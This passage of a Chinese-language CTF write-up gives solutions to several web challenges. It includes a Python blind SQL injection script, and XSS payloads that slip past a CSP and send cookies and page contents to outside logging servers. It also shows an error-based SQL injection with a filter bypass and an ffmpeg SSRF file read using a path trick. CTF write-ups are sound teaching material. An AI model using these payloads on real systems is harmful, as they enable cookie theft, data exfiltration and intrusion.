        injection = "neseju' and 99 and if((asconii(substring((selonect thisi5f14g from fff1ag limit 0,1),{pos},1))={payload}),1,0)#".format(
            pos=pos, payload=payload)
        data = {'user': injection, 'pass': '1'}
        try:
            r = requests.post(url=url1, data=data, cookies=cookies)
        except:
            pass
        injection = "neseju' and 99 and if((ascii(substring((select thisi5f14g from fff1ag limit 0,1),{pos},1))={payload}),1,0)#".format(
            pos=pos, payload=payload)
        data = {'user': injection, 'pass': '1'}
        try:
            r = requests.post(url=url2, data=data, cookies=cookies)
        except:
            pass
        try:
            r = requests.get(url=url3, cookies=cookies)
        except:
            pass
        data = {'user': 'neseju', 'pass': '1'}
        try:
            r = requests.post(url=url2, data=data, cookies=cookies)
        except:
            pass
        sta = int(re.search('you balance is ([-\d]*)', r.text).group(1))
        print sta
        if num - sta >= 2333:
            fg = 0
            flag = flag + chr(payload)
            print flag
            break
        else:
            num = sta
    pos += 1
```
flag{bbb6b6ui1d_5q1_iz_3z}

## GuestBook

XSS，preview

delete了几个函数。用iframe补回来.

有csp策略：
```html
"script-src 'self' 'unsafe-inline' 'unsafe-eval'"
"img-src 'self'"
"default-src 'self'"
```
location替换成了hacker，用eval("locati"+"on")代替

数据可以通过top.location.href的形式发送或者表单的方式发送。

payload:

```html
<iframe id="iframe" src="http://106.75.119.64:8888/"></iframe>
<script>
eval=iframe.contentWindow.eval;
XMLHttpRequest=iframe.contentWindow.XMLHttpRequest;
Function=iframe.contentWindow.Function;
Image=iframe.contentWindow.Image;
eval("top.locati"+"on").href="http://45.76.150.56/log.php?cookie="+document.cookie+"&loc="+escape(eval("locati"+"on").href)+"&doc="+escape(document.body.innerHTML);
</script>
```

相当于上传功能，并且知道文件上传到哪里了。

有http://106.75.119.64:8888/admin/这样一个目录。尝试读这个地址的页面代码。
payload:
```html
<iframe id="iframe" src="http://106.75.119.64:8888/admin/"></iframe>
<script>
eval=iframe.contentWindow.eval;
XMLHttpRequest=iframe.contentWindow.XMLHttpRequest;
Function=iframe.contentWindow.Function;
Image=iframe.contentWindow.Image;
function createXHR(){
        if(typeof XMLHttpRequest != 'undefined'){
                return new XMLHttpRequest();
        }else if(typeof ActiveXObject != 'undefined'){
                if(typeof arguments.callee.activeXString != 'string'){
                        var versions = ['MSXML2.XMLHttp.6.0','MSXML2.XMLHttp.3.0','MSXML2.XMLHttp'];
                        for(var i=0;i<versions.length;i++){
                                try{
                                        var xhr = new ActiveXObject(versions[i]);
                                        arguments.callee.activeXString = versions[i];
                                        return xhr;
                                }catch(ex){}
                        }
                }
                return new ActiveXObject(arguments.callee.activeXString);
        }else{
                throw new Error('No XHR Object available');
        }
}
// send GET Request
function sendGetRequest(url,async,callback){
        var xhr  = createXHR();
        xhr.onreadystatechange = function(){
                if(xhr.readyState == 4 && xhr.status == 200){
            if(callback)
                callback(xhr.responseText);
                }
        }
        xhr.open('get',url,async);//true:tb，false:yb
        xhr.send();
}
function readPage(url){
var process=function(res){
    sendGetRequest("http://45.76.150.56/log.php?test1=1"+res,false,null);
}
    sendGetRequest(url,false,process);
}
readPage("http://106.75.119.64:8888/admin/");
setTimeout(function(){
cookie=iframe.contentWindow.document.cookie;
sendGetRequest("http://45.76.150.56/log.php?test2=2"+cookie,false,null);
},1000);
</script>
```
读到的admin内容是空的。
```html
<meta http-equiv="refresh" content="0; url=http://47.93.249.99"> 
```

使用meta标签拿到带出的信息  我使用csrf+xss来做这道 题目。rename处有一个xss
漏洞

使用rename 设置 self-xss
```html
<script>document.addEventListener("DOMContentLoaded", function(event) {
var ifr = document.createElement('iframe');
ifr.src='http://106.75.103.149:8888/admin/';
ifr.id = 'flag';
document.body.appendChild(ifr);
setTimeout(function(){var a = document.getElementById('flag').contentWindow;
var fflag= a.document.cookie;
var link = document.createElement('link');
link.href='http://47.93.249.99/MagicBlue/phpwaf.php?flag='+fflag;
link.rel = 'prefetch';
document.body.appendChild(link);},1000);
});
</script>
```
flag{cr4ck_c5p_m4ybe_3z}

## embarrass

搜索flag字符串可以秒杀

flag{Good_b0y_W3ll_Done}

## 方舟计划

要求id为1 很明确就是拿到管理员的密码

注册的地方phone有 error injection  过滤了from 使用内联注释绕过

```SQL
/*!50000from*/
x'),('x',1,extractvalue(1,concat(0x5c,(select x.name /*!50000from*/ (select * /*!50000from*/ user x where id=1)x))))#
```
密码是aes加密之后存到数据库

injection 出 name password secrectkey 解密后
`name=fangzh0u` `password=tencent123`

后台是ffmpeg ssrf读文件

很多文件都是可以读取 但是`/etc/passwd` 读取不了 关键字bypass `/etc/./passwd`

最后flag在`file:///home/s0m3b0dy/flag`

